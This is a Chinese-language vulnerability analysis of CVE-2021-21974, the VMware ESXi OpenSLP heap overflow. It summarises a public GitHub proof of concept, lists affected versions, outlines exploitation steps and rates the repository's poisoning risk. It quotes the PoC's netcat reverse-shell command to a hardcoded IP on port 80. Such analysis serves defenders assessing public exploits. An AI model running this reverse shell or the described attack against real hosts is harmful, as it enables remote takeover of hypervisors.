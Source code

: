 ## CVE-2021-21974-VMware ESXi-OpenSLP堆溢出

**漏洞编号:** CVE-2021-21974

**漏洞类型:** 堆溢出

**影响应用:** VMware ESXi

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** ESXi 7.0 before ESXi70U1c-17325551, 6.7 before ESXi670-202102401-SG, 6.5 before ESXi650-202102101-SG; VMware Cloud Foundation 4.x before 4.2 and 3.x

**利用条件:** 攻击者需要与ESXi主机处于同一网络段，并能访问427端口。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-21974是VMware ESXi中OpenSLP服务的一个堆溢出漏洞。攻击者通过向目标ESXi主机的427端口发送特制的SLP服务请求，可以在OpenSLP服务中触发堆溢出，从而导致远程代码执行。提供的POC代码通过Python实现，主要步骤包括：

1.  **连接验证：** 首先验证与目标IP地址和端口（427）的连接。
2.  **SLP线程：** 创建一个SLP线程，负责发送SLP数据包。
3.  **连接：** 建立到目标服务器的连接。
4.  **服务请求：** 发送包含特制服务位置协议（SLP）字符串的服务请求，该字符串旨在触发堆溢出（`b'roflmao://pwning'`）。
5.  **关闭连接：** 关闭连接。

**有效性：** 根据搜索结果和漏洞库信息，该漏洞被广泛利用，存在公开的POC代码，并且在实际攻击中被用于传播勒索软件，因此提供的POC代码很可能有效。

**投毒风险：** POC代码本身并无明显的恶意代码，但存在一定的投毒风险，风险评估为10%。潜在的投毒方式可能包括：

*   **反弹shell地址：**  POC代码中包含硬编码的反弹shell IP地址（`192.168.0.194`）。攻击者可能修改此IP地址，将受害者机器上的shell反弹到攻击者控制的服务器上。
*   **命令执行内容：**  POC代码中定义了要执行的shell命令 `shell_cmd = b'mknod /tmp/backpipe p ; /bin/sh 0</tmp/backpipe | nc 192.168.0.194 80 1>/tmp/backpipe'`，该命令创建一个命名管道，并通过netcat将shell反弹到指定IP和端口。虽然代码本身实现了漏洞利用，但恶意用户可以修改命令内容植入恶意后门。
*  **DEBUG标志:**  `DEBUG = True` 开启了调试模式, 理论上,如果调试信息过多可能会泄露信息.但是利用价值不大,所以评估为较低的风险.

**利用方式：**

1.  攻击者首先需要与目标ESXi主机处于同一网络段，确保可以访问其427端口。
2.  运行POC代码，并指定目标IP地址。
3.  POC代码会创建一个SLP线程，连接到目标主机的427端口。
4.  发送特制的SLP服务请求，该请求包含一个恶意的服务类型字符串，导致OpenSLP服务中的堆溢出。
5.  堆溢出允许攻击者覆盖内存中的数据，最终实现远程代码执行。
6.  POC代码执行shell命令，创建一个反弹shell，将目标主机的shell连接到攻击者的服务器。
7.  攻击者从而控制目标ESXi主机。

**项目地址:** [mercylessghost/CVE-2021-21974](https://github.com/mercylessghost/CVE-2021-21974)

**漏洞详情:** [CVE-2021-21974](https://nvd.nist.gov/vuln/detail/CVE-2021-21974)